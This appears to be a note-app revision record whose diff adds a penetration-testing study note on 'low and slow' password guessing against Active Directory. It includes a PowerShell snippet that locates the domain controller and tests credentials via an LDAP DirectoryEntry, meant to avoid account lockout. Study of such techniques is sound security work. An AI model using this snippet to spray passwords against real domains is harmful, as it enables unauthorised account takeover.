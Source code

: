 id: c7e8fbfb2d7e4ea9821c572c6459987e
parent_id: e0c7b4db2d434812b6578eb3afd73153
item_type: 1
item_id: 07865553b30a4727ac88b108b5e909ef
item_updated_time: 1643562044379
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"a215c09)\"],[1,\"\\\n\\\n# Low and Slow Password Guessing\\\n\\\nFor scenarios where Caution on many failed attempts will block the account\\\n\\\nWill use LDAP and ADSI to perform the attack without triggering a account lockout\\\n\\\nDomain's account policy can be checked using net accounts\\\n\\\n![314c3a15a0499d844cf0e296dc958561.png](:/00025d3a270a4dcfb826455dd095d0b3)\\\n\\\nWe can use our powershell script to demonstrate the basic components.\\\n\\\nUse the function DirectoryEntry constructor to perform queries to the DC as any user that we know the login to\\\n\\\n```Powershell\\\n$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()\\\n$PDC = ($domainObj.PdcRoleOwner).Name\\\n\\\n$SearchString = \\\"LDAP://\\\"\\\n$SearchString += $PDC + \\\"/\\\"\\\n\\\n$DistinguishName = \\\"DC=$($domainObj.Name.Replace('.',',DC='))\\\"\\\n\\\n$SearchString += $DistinguishName\\\nNew-Object System.DirectoryServices.DirectoryEntry($Searchstring, \\\"username\\\", \\\"Qwerty09!\\\")\\\n```\\\n\\\n![985c4eba39ff324baaf6eea227a2d5d6.png](:/d8f92b6eaa154116bbcb776f5801a5e3)\"]],\"start1\":1693,\"start2\":1693,\"length1\":8,\"length2\":982}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T17:00:58.813Z
created_time: 2022-01-30T17:00:58.813Z
type_: 13